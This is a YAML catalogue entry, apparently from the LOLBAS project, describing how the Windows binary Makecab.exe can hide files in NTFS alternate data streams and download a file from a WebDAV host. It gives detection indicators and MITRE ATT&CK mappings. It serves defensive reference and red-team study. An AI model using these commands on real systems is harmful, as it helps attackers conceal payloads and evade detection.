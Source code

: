 ```yaml
---
Name: Makecab.exe
Description: Binary to package existing files into a cabinet (.cab) file
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab
    Description: Compresses the target file into a CAB file stored in the Alternate Data Stream (ADS) of the target file.
    Usecase: Hide data compressed into an alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: makecab \\webdavserver\webdav\file.exe C:\Folder\file.txt:file.cab
    Description: Compresses the target file into a CAB file stored in the Alternate Data Stream (ADS) of the target file.
    Usecase: Hide data compressed into an alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: makecab \\webdavserver\webdav\file.exe C:\Folder\file.cab
    Description: Download and compresses the target file and stores it in the target file.
    Usecase: Download file and compress into a cab file
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\makecab.exe
  - Path: C:\Windows\SysWOW64\makecab.exe
Code_Sample:
  - Code:
Detection:
  - IOC: Makecab getting files from Internet
  - IOC: Makecab storing data into alternate data streams
Resources:
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
Acknowledgement:
  - Person: Oddvar Moe
    Handle: "@oddvarmoe"
---
```

